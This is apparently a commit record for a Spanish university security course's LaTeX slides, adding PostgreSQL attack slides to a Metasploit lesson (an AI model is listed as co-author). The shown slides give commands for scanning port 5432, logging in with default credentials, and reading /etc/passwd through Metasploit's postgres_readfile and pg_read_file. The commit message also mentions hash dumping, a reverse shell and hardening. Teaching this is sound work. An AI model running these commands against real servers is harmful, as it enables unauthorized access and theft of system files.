

Before and after one commit to joseluispplu/Seguridad-en-Sistemas-Informaticos, LaTeX slides (Tema-3.3 - Hacking con Metasploit/presentacion_3.3.tex): page 54 of 129 before the commit and pages 54 and 55 of 134 after it, the two joined at a grey line, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Tema 3.3: amplía PostgreSQL con postgres.pdf (Hacking Articles)
+5 slides tras el bloque existente (postgres_login/postgres_payload):
- Descubrimiento y acceso con el cliente psql (nmap -p5432, psql).
- Lectura de ficheros (postgres_readfile / pg_read_file).
- Volcado de hashes (postgres_hashdump, pg_shadow).
- Ejecución de comandos con COPY FROM PROGRAM (RCE + reverse shell).
- Defensa y hardening (pg_hba.conf, mínimo privilegio, monitorización).
Comandos con \cmd/\cmdbox, 4 capturas y referencia a la fuente.

Co-Authored-By: Claude Opus 4.8 <noreply@anthropic.com>

```diff
--- a/Tema-3.3 - Hacking con Metasploit/presentacion_3.3.tex
+++ b/Tema-3.3 - Hacking con Metasploit/presentacion_3.3.tex
@@ -605,3 +605,28 @@
 \end{center}
 \end{frame}
 
+\begin{frame}{PostgreSQL: descubrimiento y acceso con el cliente}
+\small
+  \begin{itemize}
+  \item Además del módulo de Metasploit, se puede interactuar directamente con el servicio (puerto \cmd{5432}) usando el cliente \cmd{psql}. Muchas instalaciones conservan credenciales por defecto (\cmd{postgres:postgres}).
+  \end{itemize}
+\cmdbox{nmap -sV -p5432 <IP>\\
+psql -h <IP> -U postgres\ \ \ \ \# contrasena por defecto: postgres\\
+\textbackslash{}l\ \ \ \ \# listar bases de datos\ \ \ \ \ \textbackslash{}du\ \ \ \ \# listar roles/usuarios}
+\begin{center}\includegraphics[width=\textwidth,height=0.42\textheight,keepaspectratio]{img/pg_access.png}\end{center}
+\fuente{Fuente: \href{https://www.hackingarticles.in/postgresql-penetration-testing/}{PostgreSQL Penetration Testing} --- Hacking Articles.}
+\end{frame}
+
+\begin{frame}{PostgreSQL: lectura de ficheros del sistema}
+\small
+  \begin{itemize}
+  \item Con privilegios de superusuario, PostgreSQL puede \textbf{leer ficheros del host} abusando de sus funciones internas. Dos vías equivalentes:
+  \end{itemize}
+\lead{Con Metasploit}
+\cmdbox{use auxiliary/admin/postgres/postgres\_readfile\\
+set rhosts <IP>\ \ \ \ set rfile /etc/passwd\ \ \ \ run}
+\lead{Manual (desde psql)}
+\cmdbox{SELECT pg\_read\_file('/etc/passwd');}
+\begin{center}\includegraphics[width=\textwidth,height=0.40\textheight,keepaspectratio]{img/pg_readfile.png}\end{center}
+\fuente{Fuente: \href{https://www.hackingarticles.in/postgresql-penetration-testing/}{PostgreSQL Penetration Testing} --- Hacking Articles.}
+\end{frame}
@@ -607,0 +642 @@
+\fuente{Fuente: \href{https://www.hackingarticles.in/postgresql-penetration-testing/}{PostgreSQL Penetration Testing} --- Hacking Articles.}
@@ -607,0 +656 @@
+\fuente{Fuente: \href{https://www.hackingarticles.in/postgresql-penetration-testing/}{PostgreSQL Penetration Testing} --- Hacking Articles.}
@@ -608,3 +668,6 @@
+\fuente{Fuente: \href{https://www.hackingarticles.in/postgresql-penetration-testing/}{PostgreSQL Penetration Testing} --- Hacking Articles.}
+\end{frame}
+
 \begin{frame}{IRC: puerta trasera en UnrealIRCd}
 \small
   \begin{itemize}
```
Also changed, not shown: Tema-3.3 - Hacking con Metasploit/img/pg_access.png (added), Tema-3.3 - Hacking con Metasploit/img/pg_copyexec.png (added), Tema-3.3 - Hacking con Metasploit/img/pg_hashdump.png (added), Tema-3.3 - Hacking con Metasploit/img/pg_readfile.png (added), Tema-3.3 - Hacking con Metasploit/presentacion_3.3.tex (33 more changed lines).
